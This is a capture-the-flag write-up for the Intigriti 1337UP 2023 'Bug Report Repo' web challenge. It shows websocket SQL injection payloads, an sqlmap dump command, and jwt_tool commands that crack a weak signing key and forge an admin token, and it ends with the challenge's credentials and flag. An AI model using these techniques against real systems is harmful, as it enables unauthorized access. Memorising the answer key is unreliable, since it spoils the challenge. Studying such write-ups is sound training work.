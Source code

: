 ```yaml
---
name: Bug Report Repo (2023)
event: Intigriti 1337UP Live CTF 2023
category: Web
description: Writeup for Bug Report Repo (Web) - Intigriti 1337UP Live CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Bug Report Repo

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/kgndZOkgVxQ/0.jpg)](https://www.youtube.com/watch?v=VX445yn4lQ4 "Websocket SQLi and Weak JWT Signing Key")

## Description

> I started my own bug bounty platform! The UI is in the early stages but we've already got plenty of submissions. I wonder why I keep getting emails about a "critical" vulnerability report though, I don't see it anywhere on the system 😕

## Part 1: Websocket SQLi

-   Players can use burp repeater to tamper with websocket requests, if they set the ID to 11, they will find an extra name `ethical_hacker`
-   If they probe with quotes, they will see errors then quickly find SQLi
    -   `{"id":"1 AND 1=1"}`
    -   `{"id":"1 AND 1=2"}`
-   Using this information, they will see need to dump the hidden row, either by filtering on `id`, `reported_by` or `severity`
-   Players can write a script, but may find [this 2021 writeup from Rayhan](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) to use SQLMap, but the script won't work by default:
    -   They need to change the `ws` protocol to `wss` for remote
    -   The DB is SQLite instead of MySQL, negative values in SQLMap will cause the script to freeze - players will need to add a timeout or logic to skip negative values
-   Launch the middleware script (sqlmap_proxy.py)
-   `sqlmap -u "http://localhost:9999/?id=1" --batch --proxy=http://127.0.0.1:8080 -T bug_reports -C description --where id=11 --dump --threads 10`
-   The hidden bug report is returned, which indicates there's an admin endpoint with weak creds

{% code overflow="wrap" %}
```bash
+--------------------------------------+
| description                          |
+--------------------------------------+
| crypt0:c4tz on /4dm1n_z0n3, really?! |
+--------------------------------------+
```
{% endcode %}

## Part 2: Weak JWT Signing Key

-   Players visit `/4dm1n_z0n3` and login with `crypt0:c4tz`
-   They see a message saying the key is only viewable by the admin
-   Crack the JWT with hashcat/john/jwt_tool etc, finding the key `catsarethebest` (present in rockyou.txt), e.g. jwt_tool takes like 3 secs
    -   `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -C -d /usr/share/wordlists/rockyou.txt`
-   Forge JWT as admin, e.g. with jwt_tool
    -   `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -S hs256 -p "catsarethebest" -I -pc identity -pv admin`
-   Login with the new cookie, revealing the config key which is the flag!

Flag: `INTIGRITI{w3b50ck37_5ql1_4nd_w34k_jw7}`
